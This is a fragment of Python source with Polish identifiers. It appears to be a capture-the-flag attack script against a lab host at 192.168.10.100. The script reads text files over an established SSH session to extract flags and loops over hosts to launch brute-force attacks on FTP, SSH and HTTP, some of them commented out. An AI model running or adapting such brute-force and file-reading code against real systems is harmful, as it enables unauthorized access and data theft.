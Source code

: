                 lista = stdout.readlines()
                print(f"List of {user[0]} files:")
                for list in lista:
                    print(f"{list.strip()}")
                    plik = list.find(".txt")
                    if plik != -1:
                        polecenie = "cat " + list.strip()
                        stdin, stdout, stderr = sshserver.exec_command(polecenie)
                        print(stderr.read())
                        flaga = stdout.readlines()[0]
                        print(f"Flaga z pliku {list.strip()} to: {flaga} ")
                        tr = sshserver.get_transport()
                        tr.banner_timeout = 3000
                        tr.close()
                        tr.stop_thread()
                        sshserver.close()
                        autenticated = False
                        break

def brute_force(hosts_ports_list: dict):
    for ip_addr, ports in hosts_ports_list.items():
        for port in ports:
            #if port == 21:
            #    print(brute_force_FTP(ip_addr))
            #if port == 22:
            #    slownik = brute_force_SSH(ip_addr)
            #    print(slownik)
                #print(brute_force_SSH(ip_addr))
            #    read_file(slownik, ip_addr)
            if port == 80:
                adres = "http://"+ip_addr
                atack = AtackHttp()
                atack.print_list(adres)



# param = {'192.168.10.100': (21,22,80)}
# ip = '192.168.10.100'
# # brute_force_FTP(ip)
# # brute_force_SSH(ip)
# brute_force(param)
# # print_list("192.168.10.100")'

